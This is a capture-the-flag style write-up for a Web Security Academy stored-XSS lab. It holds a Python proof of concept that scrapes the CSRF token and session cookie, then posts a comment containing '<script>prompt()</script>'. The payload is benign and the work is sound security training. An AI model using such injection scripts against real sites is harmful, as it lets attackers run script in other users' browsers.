

# Lab: Stored XSS into HTML context with nothing encoded

## Description
```
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/post?postId=7"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = requests.get(burp0_url, headers=burp0_headers)
cookies = response.cookies
cookies_tmp = str(response.cookies)
session_value=cookies_tmp.split("session=")[1].split(" ")[0]
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")
csrf_input = soup.find('input', {'name': 'csrf'})
csrf_token = csrf_input['value'] if csrf_input else None
print(f"CSRF Token: {csrf_token}")
print(f"session_value: {session_value}")

attack_payload = "<script>prompt()</script>"
print(f"attack_payload : \"comment\": \"yoobi\"+{attack_payload}")
burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/post/comment"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Origin": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/post?postId=7", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
burp0_data = {"csrf": csrf_token, "postId": "7", "comment": "yoobi"+attack_payload, "name": "yoobi", "email": "yoobi@yoobi.com", "website": "http://yoobi.com"}
print(f"attack_data : {burp0_data}")
session.post(burp0_url, headers=burp0_headers, data=burp0_data, cookies=cookies)

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/post?postId=7"
burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)

soup = BeautifulSoup(response.text, 'html.parser')
status_p = soup.select_one('div.widgetcontainer-lab-status > p')
status_text = status_p.text if status_p else "Status not found"
print(f"Lab : {status_text}")
```

## Result
